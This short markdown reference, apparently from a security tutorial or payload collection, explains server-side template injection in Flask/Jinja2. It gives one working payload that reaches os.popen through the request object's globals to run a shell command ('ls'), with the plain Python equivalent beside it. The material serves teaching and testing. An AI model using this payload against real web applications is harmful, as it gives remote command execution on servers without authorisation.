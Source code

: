 # Flask (Jinja2) Server-Side Template Injection (SSTI)
Flask is a lightweight Python web application framework and is great for building simple APIs and microservices. It can also be used for fully-fledged web applications relying on server-side rendering using the Jinja2 templating engine.

## Exploitation
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
would be in regular Python
```python
import os
os.popen('ls')
```
